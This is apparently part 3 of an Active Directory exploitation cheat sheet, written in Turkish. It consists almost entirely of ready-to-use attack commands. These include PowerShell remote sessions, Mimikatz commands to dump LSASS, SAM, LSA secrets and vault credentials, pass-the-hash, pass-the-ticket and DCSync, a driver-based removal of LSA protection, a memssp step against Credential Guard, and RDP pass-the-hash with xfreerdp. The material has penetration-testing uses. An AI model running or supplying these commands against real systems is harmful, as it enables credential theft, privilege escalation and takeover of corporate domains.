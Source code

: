 # Active Directory Exploitation Cheat Sheet - Bölüm 3

## Uzak Komut Çalıştırma ve Oturum Başlatma

- **Komut Çalıştır ve Oturum Başlat:**  
  ```powershell
  Invoke-Command -Credential $cred -ComputerName <NameOfComputer> -FilePath c:\FilePath\file.ps1 -Session $sess
  Enter-PSSession -Session $sess
  ```

### Uzaktan Durumsal Komutlar Çalıştırma

- **Yeni Oturum Oluştur:**  
  ```powershell
  $sess = New-PSSession -ComputerName <NameOfComputer>
  ```

- **Oturum Üzerinde Komut Çalıştır:**  
  ```powershell
  Invoke-Command -Session $sess -ScriptBlock {$ps = Get-Process}
  ```

- **Komut Sonucunu Kontrol Et:**  
  ```powershell
  Invoke-Command -Session $sess -ScriptBlock {$ps}
  ```

## Mimikatz Kullanımı

- **LSASS Dump Al:**  
  ```mimikatz
  privilege::debug
  token::elevate
  sekurlsa::logonpasswords
  ```

- **Pass The Hash:**  
  ```mimikatz
  privilege::debug
  sekurlsa::pth /user:<UserName> /ntlm:<NTLMHash> /domain:<DomainFQDN>
  ```

- **Kerberos Ticketlerini Listele:**  
  `mimikatz sekurlsa::tickets`

- **Local Terminal Services Kimlik Bilgilerini Dump Et:**  
  `mimikatz sekurlsa::tspkg`

- **LSASS'i Dosyaya Kaydet ve Dump Et:**  
  `mimikatz sekurlsa::minidump c:\temp\lsass.dmp`

- **MasterKeyleri Listele:**  
  `mimikatz sekurlsa::dpapi`

- **Yerel Kerberos AES Anahtarlarını Listele:**  
  `mimikatz sekurlsa::ekeys`

- **SAM Veritabanını Dump Et:**  
  `mimikatz lsadump::sam`

- **SECRETS Veritabanını Dump Et:**  
  `mimikatz lsadump::secrets`

- **Domain Controller Kimlik Bilgilerini Inject Et ve Dump Et:**  
  ```mimikatz
  privilege::debug
  token::elevate
  lsadump::lsa /inject
  ```

- **Domain Kimlik Bilgilerini LSASS'e Dokunmadan Dump Et:**  
  `mimikatz lsadump::dcsync /domain:<DomainFQDN> /all`

- **Yerel Kerberos Kimlik Bilgilerini Listele ve Dump Et:**  
  `mimikatz kerberos::list /dump`

- **Pass The Ticket:**  
  `mimikatz kerberos::ptt <PathToKirbiFile>`

- **TS/RDP Oturumlarını Listele:**  
  `mimikatz ts::sessions`

- **Vault Kimlik Bilgilerini Listele:**  
  `mimikatz vault::list`

### LSA Korumasını Atlama

- **LSA Korumalı Süreç (Kernel Tabanlı Atlatma):**
  ```
  reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa
  !+
  !processprotect /process:lsass.exe /remove
  sekurlsa::logonpasswords
  ```

- **LSAISO Sanallaştırma ve Credential Guard:**
  ```
  tasklist |findstr lsaiso
  misc::memssp
  ```

## Remote Desktop Protocol (RDP)

### RestrictedAdmin ile Hash İle Geçiş

- **Mimikatz Kullanımı:**  
  ```mimikatz
  privilege::debug
  sekurlsa::pth /user:<Username> /domain:<DomainName> /ntlm:<NTLMHash> /run:"mstsc.exe /restrictedadmin"
  ```

- **xFreeRDP Kullanımı:**  
  `xfreerdp /u:<Username> /pth:<NTLMHash> /d:<DomainName> /v:<Target>`
